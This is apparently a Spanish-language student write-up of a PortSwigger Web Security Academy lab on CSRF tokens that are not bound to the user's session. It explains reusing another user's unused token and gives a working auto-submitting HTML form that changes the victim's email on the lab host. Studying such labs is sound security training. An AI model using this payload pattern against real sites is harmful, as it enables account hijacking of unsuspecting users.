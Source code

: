 ## Objetivo:

![[Pasted image 20240515232215.png]]


## Solucion:

Usar el CSRF de otro usuario, el CSRF a usar es el que devuelve el servidor luego de hacer una consulta, ya que en la siguiente consulta que se haga al server éste mismo estará esperando como request el CSRF que éste mismo envio en la consulta anterior...

Igual, esto consiste en usar un CSRF (que no haya sido usado) de algun otro usuario para hacer el ataque.

![[Pasted image 20240515232802.png]]



![[Pasted image 20240515233057.png]]


```
<body>

<form action="https://0afb001b04e13580803330ee00840097.web-security-academy.net/my-account/change-email" method="post">

<input type="hidden" name="email" value="pwned@gmail.com" />

<input type="hidden" name="csrf" value="yMBCYu5eXS7vaHyFVfJEAzfg3Ef3fXH5" />

</form>

<script>

document.forms[0].submit()

</script>

</body>
```
